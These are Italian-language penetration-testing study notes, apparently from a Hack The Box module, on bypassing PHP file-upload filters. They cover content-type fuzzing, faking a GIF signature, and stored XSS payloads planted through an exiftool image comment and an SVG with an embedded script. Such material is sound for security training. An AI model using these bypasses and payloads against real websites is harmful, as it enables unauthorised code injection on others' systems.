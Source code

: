Questo pezzo di codice controlla il content-type della richiesta

```php
$type = $_FILES['uploadFile']['type'];
if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```

e mette in whitelist alcuni tipi di content-type di immagini.

Anche qui si puo' fare fuzing per capire quali sono concessi, la lista da usare e' questa:
https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt
Questa lista contiene 700 e passa elementi da testare. Se siamo sicuri che ci servono solo quelli delle immagini possiamo filtrarli con il seguente script:

```shell
$ wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Miscellaneous/web/content-type.txt
$ cat content-type.txt | grep 'image/' > image-content-types.txt
```

ed utilizzare `image-content-types.txt` per il fuzing.

Altro controllo diffuso e' il check dei primi byte del file, la signature del file. Le immagini GIF hanno una signature legibile, moltri altri file no. Possiamo usare `GIF87a` o `GIF89a` all'inizio di un file per farlo passare per una GIF.

Il controllo sul mimetype e' il medesimo del contentype, cambia solo la fonte da checcare, in questo caso e' la funzione php `mime_content_type()` che estrare i primi byte del file.

```php
$type = mime_content_type($_FILES['uploadFile']['tmp_name']);

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```

# Introduzione di XXS Stored con il caricamento di file

Possiamo manipolare l'immagine stessa e creare delle Stored-XSS. Si possono inserire dei commenti nelle immagini usando `exiftool` e se la pagina web li visualizza probabilmente esegue quel codice.

```shell
$ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
$ exiftool HTB.jpg
...SNIP...
Comment                         :  "><img src=1 onerror=alert(window.origin)>
```

Oppure si puo' inserire uno stozzo di `js` in una `svg` (che e' un file `XML` di base).

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert("window.origin");</script>
</svg>

```
